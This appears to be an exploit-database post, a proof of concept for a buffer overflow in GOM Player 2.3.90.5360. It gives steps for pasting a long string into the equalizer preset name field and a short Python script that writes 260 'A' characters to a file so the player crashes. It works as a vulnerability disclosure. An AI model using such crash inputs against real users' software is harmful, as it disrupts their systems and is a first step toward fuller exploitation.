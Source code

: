 ```yaml
---
layout: post
title: GOM Player 2.3.90.5360 - Buffer Overflow (PoC)
date: 2024-05-25
category: exploit
---
```


# Exploit Title: GOM Player 2.3.90.5360 - Buffer Overflow (PoC)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 30.08.2023
# Vendor Homepage: https://www.gomlab.com
# Software Link: https://cdn.gomlab.com/gretech/player/GOMPLAYERGLOBALSETUP_NEW.EXE
# Tested Version: 2.3.90.5360 (latest)
# Tested on: Windows 11 64bit
# Thanks to: M. Akil GÜNDOĞAN

#  - Open GOM Player
#  - Click on the gear icon above to open settings
#  - From the menu that appears, select Audio
#  - Click on Equalizer
#  - Click on the plus sign to go to the "Add EQ preset" screen
#  - Copy the contents of exploit.txt and paste it into the preset name box, then click OK
#  - Crashed!



#!/usr/bin/python

exploit = 'A' * 260

try:
    file = open("exploit.txt","w")
    file.write(exploit)
    file.close()

    print("POC is created")
except:
    print("POC is not created")
